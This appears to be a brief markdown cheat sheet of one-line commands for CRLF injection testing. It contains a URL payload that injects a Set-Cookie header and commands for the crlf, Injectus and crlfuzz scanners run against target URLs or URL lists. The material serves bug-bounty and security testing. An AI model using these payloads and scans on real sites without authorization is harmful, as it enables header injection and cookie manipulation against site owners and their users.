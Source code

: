# ONE-LINE COMMANDs

## CRLF - Add a cookie

>Example for Requested page

```http
http://www.hackerone.com/%0D%0ASet-Cookie:mycookie=You have been Hacked
```

## CRLF-Injection-Scanner

```bash
crlf scan -u "www.hackerone.com"
```

```bash
crlf scan -i "urls.txt"
```

## Injectus

>List of URLs use -f 
```bash
python3 Injectus.py -f /path/to/urls.txt -c | tee injectcrlf.txt
```

>Single URL use -u
```bash
python3 Injectus.py -u hackerone.com -c | tee injectcrlf.txt
```

## crlfuzz

>Single URL use -u
```bash
crlfuzz -u "http://target"
```

>List of URLs use -l
```bash
crlfuzz -c 30 -l /path/to/urls.txt
```
